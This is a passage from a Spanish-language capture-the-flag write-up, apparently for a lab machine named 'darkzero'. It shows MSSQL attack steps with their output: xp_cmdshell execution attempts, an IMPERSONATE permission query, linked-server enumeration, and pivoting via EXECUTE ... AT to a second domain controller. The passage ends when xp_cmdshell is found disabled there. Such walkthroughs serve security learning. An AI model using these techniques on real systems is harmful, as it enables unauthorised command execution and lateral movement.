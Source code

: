 A parte de las bases de datos por defecto, no encontramos mucho más, podemos ahora intentar ejecución de comandos:

```js
SQL (darkzero\john.w  guest@master)> xp_cmdshell ''whoami''
ERROR(DC01): Line 1: The EXECUTE permission was denied on the object 'xp_cmdshell', database 'mssqlsystemresource', schema 'sys'.
SQL (darkzero\john.w  guest@master)> EXECUTE sp_configure 'show advanced options', 1
ERROR(DC01): Line 105: User does not have permission to perform this action.
```

Parece que la acción está restringida, ahora buscamos si podemos impersonificar a algun usuario:

```js
SQL (-@master)> SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
name   
---- 
```

Pero no devuelve nada, Ahora, algo común es que se pueden conectar bases de datos mediante `linked servers`, especialmente cuando busca ejecutarse una búsqueda SQL transaccional que incluso, puede incluir tablas en otra instancia de SQL o incluso otro producto como `Oracle`

```js
SQL (darkzero\john.w  guest@master)> SELECT srvname, isremote FROM sysservers
srvname             isremote   
-----------------   --------   
DC01                       1   

DC02.darkzero.ext          0   
```

### Pivoting por Linked Database

Bingo, `1` significa que es un servidor remoto, y el `0` indica que es un `linked server` y como vimos, si logramos conectarnos y escalamos en este forest `darkzero.ext` es el compromiso del `darkzero.htb`.

Para ejecutar queries en un `linked server` podemos utilizar la instrucción `EXECUTE` especificando en qué `linked server` quiere ejecutarse:

```SQL
SQL (darkzero\john.w  guest@master)> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [DC02.darkzero.ext]

-   -   -   -   
1   1   1   1
```

Esto es suficiente para probar la conexión, ahora podemos intentar ejecutar comandos (cuando utilizamos este método, tenemos que escapar las comillas con otras comillas):

```SQL
SQL (darkzero\john.w  guest@master)> EXECUTE('xp_cmdshell ''whoami''') AT [DC02.darkzero.ext]
ERROR(DC02): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
```
